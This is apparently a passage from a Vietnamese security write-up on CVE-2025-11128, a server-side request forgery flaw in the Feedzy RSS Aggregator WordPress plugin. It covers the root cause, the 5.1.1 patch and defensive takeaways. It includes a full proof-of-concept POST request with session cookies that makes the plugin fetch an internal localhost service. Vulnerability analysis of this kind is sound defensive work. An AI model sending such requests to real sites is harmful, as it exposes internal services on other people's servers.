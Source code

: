 ### Proof of Concept (PoC)

1. Login bằng tài khoản Contributor
2. Gửi POST request với URL trỏ đến local service:

```php
POST /wp-json/feedzy/v1/feed HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-login.php?redirect_to=http%3A%2F%2Flocalhost%2Fwp-admin%2F&reauth=1
Connection: keep-alive
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=sub%7C1761790291%7C0Q8NLwANiN0Uz0cgmvSAN6iBfEFzSylzkAkZn4kLcoG%7Cdf597bffe4c239d9e871b2ac98a2d427df0fb82dc7a09099bc026fbbff641ad1; wp-settings-time-2=1761542750; _lscache_vary=0f9122a3a07756eeee3b4199f2c151b1; wp-settings-time-3=1761591693; wp-settings-3=mfold%3Do; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=sub%7C1761790291%7C0Q8NLwANiN0Uz0cgmvSAN6iBfEFzSylzkAkZn4kLcoG%7Cd42e05305965ebb0efad0d1374e9552219c641afb6452531634d3b4e414c6a48; wp_lang=en_US

url[0]=http://localhost:8001/feed&category=cat
```

**Result**:

![Result](result.png "Nội dung đọc được từ local service")

{{< admonition >}}
Nếu thử `url` với file không phải dạng XML, ta nhận được response:

![Metadata](metadata.png "Kết quả khi file không thuộc dạng XML")
{{< /admonition >}}

## Conclusion

Lỗ hổng **CVE-2025-11128** trong plugin **Feedzy RSS Aggregator** xuất phát từ việc xử lý URL không an toàn trong REST API `/feedzy/v1/feed`.
Hàm `feedzy_sanitize_feeds()` chỉ dùng `esc_url()` mà không xác minh địa chỉ, cho phép attacker có quyền **Subscriber** gửi yêu cầu SSRF đến các dịch vụ nội bộ.

Bản vá **5.1.1** khắc phục bằng cách sử dụng `wp_http_validate_url()`, thắt chặt quyền truy cập API qua `current_user_can('edit_post', $post_id)` và thay `esc_url()` bằng `esc_url_raw()`.

## Key takeaways

* `esc_url()` không đủ để xác minh URL đầu vào.
* REST API cần được giới hạn quyền truy cập phù hợp.
* Cần xác minh và lọc URL để ngăn SSRF đến mạng nội bộ.

## References
